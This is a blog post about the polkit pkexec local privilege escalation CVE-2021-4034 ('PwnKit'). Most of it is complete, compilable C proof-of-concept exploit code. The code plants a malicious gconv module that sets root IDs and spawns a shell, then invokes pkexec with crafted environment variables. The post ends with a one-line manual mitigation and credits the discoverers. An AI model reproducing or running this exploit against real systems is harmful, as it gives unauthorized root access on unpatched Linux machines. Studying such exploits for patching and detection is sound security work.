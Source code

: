 ```yaml
---
title: Polkit's Pkexec CVE-2021-4034
author: Nobel Herrera
date: 2022-03-24 11:11:11 -0400
categories: [CVE, Linux]
tags: [RedTeam, LPE]
math: true
mermaid: true
image:
  path: /commons/devices-mockup.png
  width: 800
  height: 500
---
```


This post walks through the PoC and manual patching of the local privilege escalation vulnerability discovered in polkit’s pkexec, dubbed as PwnKit. 

## Contents
---

* [Exploit confirmed on fully patched Ubuntu 21.10](#exploit-confirmed-on-fully-patched-ubuntu-2110)
* [PoC Code](#poc-code)
* [Manual Patching](#manual-patching)
* [Credits](#credits)

---

## Exploit confirmed on fully patched Ubuntu 21.10:

![](https://raw.github.com/nobelh/nobelh.github.io/blob/main/assets/img/Capture3.PNG)

## PoC Code:
```c
/* Compile: gcc polkit_PoC.c -o PwnKit
* Change perms: chmod +x ./PwnKit
* Profit: ./PwnKit
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```
## Manual Patching:
Remove SGID from /usr/bin/pkexec
```shell
cd /usr/bin && sudo chmod 0755 ./pkexec
```
## Credits:
This vulnerability was discovered by the [Qualys Research Team](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).